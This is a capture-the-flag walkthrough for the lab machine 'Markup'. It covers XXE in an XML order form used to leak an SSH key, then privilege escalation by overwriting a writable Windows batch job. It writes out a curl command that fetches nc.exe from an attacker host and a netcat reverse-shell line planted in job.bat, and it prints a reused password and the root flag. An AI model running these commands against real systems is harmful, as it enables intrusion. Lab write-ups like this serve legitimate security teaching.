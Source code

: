 # Starting Point - Markup

## Enumeration

```
rustscan 10.10.10.49 -- -sC -sV -o port_scan


```

### Examining Port 80 - Apache Server

![](pics/login.png)

When accessing the open port 80 via a browser, we can see a login page. in the previous machine (Included), we found the credentials `Daniel:>SNDv*2wzLWf` stored in a SQL dump. Using them, we can successfully login and we are redirected to the application's website, which seems to be some kind of online store / delivery service.
![](pics/delivery.png)

The website provides several functionality, one of which is for submitting orders. 

![](pics/order.png)

When submitting an order (with test data), and intercepting the request with Burpsuite, we can see that the content is XML.

![](pics/burp-order.png)

There is a good chance of an XXE (XML External Entity) vulnerability. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

Let's try it:

![](pics/xxe_proof.png)

Perfect! It works.

Now what can we do? We know that there is an open SSH port. And we also know that `Daniel` is a valid user. Maybe we can leak the private SSH key and use it to connect to the server.

![](pics/ssh_key_leak.png)

Using this key as the identitfier for the ssh connection we get access to the machine!

```
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>whoami
markup\daniel
```

## Exploitation

Enumerating the system, reveals a script named `job.bat` which is located in the `C:\Log-Management` directory:

```
daniel@MARKUP C:\Log-Management>type job.bat
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

Looking at the permissions, we see that the group `BUILTIN\Users` has full control (F) over the file. This also includes our current user daniel.

```
daniel@MARKUP C:\Log-Management>icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
```

The idea is to replace the current code with a reverse shell, which will then be executed by an administrator (similar to cron jobs on unix). But therefore, we first must upload the nc.exe so that we can establish a reverse shell.

```
curl http://10.10.14.15/nc.exe -o c:\users\daniel\nc.exe

echo C:\Users\daniel\nc.exe -e cmd.exe 10.10.14.15 4444 > C:\Log-Management\job.bat
```

Now we wait and eventually receive a root-shell:

![](pics/rootshell.png)

Final step is to obtain the root flag: `f574a3e7650cebd8c39784299cb570f8`
